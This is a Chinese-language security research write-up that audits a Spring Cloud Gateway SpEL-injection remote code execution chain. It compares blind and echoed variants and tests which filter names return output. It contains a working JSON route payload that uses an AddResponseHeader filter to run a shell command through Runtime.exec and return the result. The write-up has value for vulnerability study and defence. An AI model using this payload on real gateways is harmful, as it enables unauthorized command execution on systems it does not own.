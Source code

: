 ## 总结（无回显利用链）

⽆回显链的filters、predicates 链确实存在，且只要 filters和predicates 名字合法绕过限制，就能触发RCE。



## 正向审计（有回显利用链）

（1）回显的原理：⽤户存储的路由定义信息存在内存中，刷新路由 spel 表达式执⾏后，会把执⾏结果写⼊路由信息⾥⾯。 通过查看路由信息 API 接⼝，就在路由信息展示中查看到 RCE 执⾏结果。

（2）通过官网的解释可一看出，对于filters的有回显的利用链中name=“AddResponseHeader”是可以触发有回显的利用链。

```
/**
*对Payload中的SPEL表达式进行讲解
*由于我们这里需要通过表达式进行命令执行所以我们需要通过T(java.lang.Runtime).getRuntime().exec()的形式调用执行命令的方法。
*由于在执行命令时需要String类型的字符串将表达式传入，所以需要对表达式进行类型强制转换成String对象。
*由于在传入表达式时需要以字节流的形式传入，所以需要调用T(org.springframework.util.StreamUtils).copyToByteArray()方法。
/
{
  "id": ""可任意更改（不可和之前创建的id相同）",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

（3）下面我们需要思考除了name=“AddResponseHeader”以外，是不是像无回显链那样对所有的name都可以进行有回显的rce攻击。

（4）我们使用name=“RedirectTo”，复现尝试，看是否可进行回显攻击。

![](./Picture2/RedirectTo-save.png)

![](./Picture2/RedirectTo-Get.png)

发现并不能进行回显，看一下后台的日志信息，发现后台返回空指针异常。

![](./Picture2/RedirectTo-日志.png)

去官网查看是我们输入的args参数与过滤器不符造成的，此过滤器中需要两个参数一个是“status”另一个是“url”，我们通过更改参数，再执行一次。

![](./Picture2/302.png)

![](./Picture2/3022.png)

仍然返回404，但后台报错不是空指针异常了，通过看异常信息，说明 spring-cloud-gateway 是对 url 格式进⾏解析了。 也就是说相应的参数都有类型限制，⽐如 status 必须是 HTTP 状态码（枚举类型）。
